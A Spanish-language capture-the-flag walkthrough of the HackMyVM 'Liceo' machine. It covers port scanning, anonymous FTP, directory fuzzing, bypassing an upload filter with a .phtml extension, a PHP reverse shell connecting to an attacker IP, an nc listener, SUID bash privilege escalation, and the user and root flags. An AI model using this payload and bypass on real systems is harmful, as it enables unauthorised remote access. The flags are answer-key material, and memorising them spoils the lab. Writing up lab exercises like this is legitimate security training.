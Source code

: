 ```yaml
---
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Liceo HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-23 03:53 EDT
Nmap scan report for 192.168.5.64
Host is up (0.0024s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000          191 Feb 01  2024 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.5.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:4c:42:8d:10:2c:61:56:7b:26:c4:78:96:6d:28:15 (ECDSA)
|_  256 7e:1a:29:d8:9b:91:44:bd:66:ff:6a:f3:2b:c7:35:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Liceo
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:C0:50:50 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.49 seconds
```

Veremos varias cosas interesantes, un puerto `80` y un `FTP` en el que parece que nos podemos conectar de forma anonima, vamos a probar a conectarnos al `FTP` para ver que contiene de forma anonima.

## FTP

```shell
ftp anonymous@<IP>
```

Info:

```
229 Entering Extended Passive Mode (|||31376|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000          191 Feb 01  2024 note.txt
226 Directory send OK.
```

Veremos que hay una `note.txt` vamos a descargarnosla:

```shell
get note.txt
```

Ahora si la leemos veremos lo siguiente:

```
Hi Matias, I have left on the web the continuations of today's work, 
would you mind contiuing in your turn and make sure that the web will be secure? 
Above all, we dont't want intruders...
```

No nos dice nada interesante, por lo que vamos a meternos dentro del puerto `80`, una vez dentro veremos una pagina web aparentemente normal, por lo que vamos a realizar un poco de `fuzzing`.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.64/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/uploads              (Status: 200) [Size: 743]
/images               (Status: 200) [Size: 6715]
/upload.php           (Status: 200) [Size: 371]
/index.html           (Status: 200) [Size: 21487]
/css                  (Status: 200) [Size: 1746]
/js                   (Status: 200) [Size: 1347]
Progress: 123415 / 882244 (13.99%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 123550 / 882244 (14.00%)
===============================================================
Finished
===============================================================
```

Veremos una cosa interesante que es `/upload.php`, si entramos dentro veremos una seccion en la que podremos subir un archivo, vamos a probar a subir un archivo `.php`.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora si lo intentamos subir nos dara un error:

```
Error: No se permiten archivos con la extensión php.
```

Por lo que vamos a probar a intentar `bypassear` la extension de esta forma:

## Escalate user www-data

```shell
mv shell.php shell.phtml
```

Ahora si subimos el `.phtml` veremos lo siguiente:

```
El archivo shell.phtml se ha subido correctamente.
```

Vemos que se ha subido de forma correcta, vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si nos vamos en la `URL` a la siguiente ruta donde estan subidos todos los archivos, veremos lo siguiente:

```
URL = http://<IP>/uploads
```

Ahora le daremos a dicho archivo y si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.64] 53456
whoami
www-data
```

Vemos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si listamos el binario de la `bash` veremos que tiene permisos `SUID`:

```
-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

Por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.1# whoami
root
```

Con esto veremos que seremos `root`, por lo que leeremos las `flags` del usuario y de `root`.

> user.txt

```
71ab613fa286844425523780a7ebbab2
```

> root.txt

```
BF9A57023EDD8CFAB92B8EA516676B0D
```
